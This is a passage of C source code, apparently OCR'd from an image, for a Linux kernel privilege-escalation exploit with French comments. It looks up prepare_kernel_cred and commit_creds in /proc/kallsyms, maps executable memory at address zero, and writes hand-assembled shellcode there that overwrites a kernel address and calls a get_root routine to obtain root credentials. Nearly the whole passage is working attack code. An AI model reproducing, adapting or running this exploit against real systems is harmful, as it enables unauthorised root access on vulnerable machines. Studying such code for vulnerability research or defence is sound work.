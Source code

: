 ```c
    exit(-1);
  }
  printf("[+] Find %s...\n", name);
  while(ret != EOF) {
    ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
    if (ret == 0) {
      fscanf(f, "%s\n", sname);
      continue;
    }
    if (!strcmp(name, sname)) {
      fclose(f);
      printf("[+] Found %s at %lx\n", name, addr);
      return addr;
    }
  }
  fclose(f);
  return 0;
}
 
int main(int ac, char **av)
{
    if (ac != 2) {
        printf("./exploit kernel_offset\n");
        printf("exemple = 0xffffffff81f3f45a");
        return EXIT_FAILURE;
    }
 
    // 2 - Appel de la fonction get_kernel_sym pour rcuperer dans le /proc/kallsyms les adresses des fonctions
    prepare_kernel_cred = (prepare_kernel_cred_t)get_kernel_sym("prepare_kernel_cred");
    commit_creds = (commit_creds_t)get_kernel_sym("commit_creds");
    // have_canfork_callback offset <= rendre dynamique aussi
     
    pid_t     pid;
    /* siginfo_t info; */
 
    // 1 - Mapper la mmoire  l'adresse 0x0000000000000000
    printf("[+] Try to allocat 0x00000000...\n");
    if (mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC,MAP_ANON|MAP_PRIVATE|MAP_FIXED, -1, 0) == (char *)-1){
        printf("[-] Failed to allocat 0x00000000\n");
        return -1;
    }
    printf("[+] Allocation success !\n");
    /* memset(0, 0xcc, 4096); */
    /*
        movq rax, 0xffffffff81f3f45a
        movq [rax], 0
        mov rax, 0x4242424242424242
        call rax
        xor rax, rax
        ret
        replace 0x4242424242424242 by get_root
    https://defuse.ca/online-x86-assembler.htm#disassembly
    */
    unsigned char shellcode[] = 
    { 0x48, 0xC7, 0xC0, 0x5A, 0xF4, 0xF3, 0x81, 0x48, 0xC7, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0xFF, 0xD0, 0x48, 0x31, 0xC0, 0xC3 };
    void **get_root_offset = rawmemchr(shellcode, 0x42);
    (*get_root_offset) = get_root;
 
    memcpy(0, shellcode, sizeof(shellcode));
    /* strcpy(0, "\x48\x31\xC0\xC3"); // xor rax, rax; ret */
```